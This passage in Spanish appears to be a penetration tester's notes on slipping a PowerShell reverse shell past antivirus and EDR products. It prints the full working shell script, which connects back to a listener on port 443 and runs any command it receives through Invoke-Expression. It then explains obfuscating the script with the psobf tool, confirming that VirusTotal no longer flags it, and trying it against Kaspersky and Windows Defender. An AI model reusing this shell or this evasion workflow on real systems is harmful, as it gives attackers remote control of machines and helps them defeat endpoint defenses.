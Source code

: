 Entonces como nos encontramos dentro de la misma infraestructura utilizamos conexiones benignas que pueden tornarse malignas, las conexiones benignas son aquellas conexiones son conexiones esperadas y que a simple vista no representan un peligro, se utiliza este metodo para evadir AV/EDR 

Para lo cual vamos a utilizar powershell para crear nuestro script de conexion 

```powershell
$LHOST = "10.X.X.X"; $LPORT = 443; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()
```

Ahora si ejecutamos directamente este script sin contexto alguno cualquier AV/ EDR bloqueara la conexión ya que los antivirus van a analizar estáticamente que ejecuta y que tipo de conexiones vienen de este archivo .ps1, para lo cual debemos encriptar o ofuscar el contenido que tenemos en este archivo 

Podemos realizar este tipo de ofuscación utilizando repositorios de github, en mi caso he elegido por utilizar `psobf`.

![[Pasted image 20250830090522.png]]

Utilizamos virus total y observamos que ningún AV/EDR detecta actividad maliciosa dentro del archivo ps1, por lo cual podríamos decir que esta todo okey que ya se ha pasado todos los AV/EDR

![[Pasted image 20250830090716.png]]

Ahora vamos a replicar este escenario en un entorno donde tengamos instalado Kaspersky, replicamos la misma metodología de ofuscación estática, dinámica y conexiones benignas, en este escenario si podemos ejecutar scripts desde la consola, observamos que a pesar que hayamos replicado los pasos no obtenemos conexión sino todo lo contrario `Kasperky` bloquea el intento de conexión.

![[Pasted image 20250830090841.png]]

Pues en este punto se puede pensar en ejecutar en memoria como lo hicimos con el script anterior no obstante lo vuelve a bloquear, esto sucede ya que la opcion dinamica que utiliza el ofuscador de archivo powershell shell llama a `Invoke-Expresion`
el cual muchos AV/EDR tienen ganchos

![[Pasted image 20250831120609.png]]

## Replicamos el escenario en Windows defender

La conexión benigna sigue siendo la misma, utilizamos la misma herramienta en para ofuscar el código y pasarlo a una maquina que tiene el Windows Defender a Tope 

![[Pasted image 20250830094502.png]]

Cabe aclarar que los AV/EDR no detectan al archivo como malicioso de primeras ya que muchas de estas soluciones no contemplan la descarga de archivos como maliciosa y otras que si 
